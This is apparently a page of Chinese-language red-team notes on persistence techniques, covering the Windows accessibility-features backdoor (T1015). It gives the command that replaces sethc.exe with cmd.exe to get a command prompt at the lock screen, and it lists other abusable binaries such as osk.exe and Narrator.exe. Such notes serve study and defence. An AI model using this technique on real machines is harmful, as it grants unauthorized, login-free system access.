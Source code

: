 # Persistence

## .bash_profile and .bashrc

MACOS

## Accessibility Features-T1015

Windows包含可访问性功能，这些功能可以在用户登录之前（例如，当用户在Windows登录屏幕上时）通过组合键启动。攻击者可以修改这些程序的启动方式，以获取命令提示符或后门程序，而无需登录系统。比如shift后门，通过五次shift按键调用C:\Windows\System32\sethc.exe。

通过命令修改sethc文件为cmd文件。

```
copy c:\windows\system32\cmd.exe c:\windows\system32\sethc.exe
```

![1574767433351](Persistence.assets/1574767433351.png)

在桌面锁定的时候按下五次shift即可在没有进入桌面的情况下调用cmd

![1574767481596](Persistence.assets/1574767481596.png)

```
其他类似的功能还有
屏幕键盘： C:\Windows\System32\osk.exe
放大镜： C:\Windows\System32\Magnify.exe
旁白： C:\Windows\System32\Narrator.exe
显示切换器： C:\Windows\System32\DisplaySwitch.exe
App切换器： C:\Windows\System32\AtBroker.exe
```
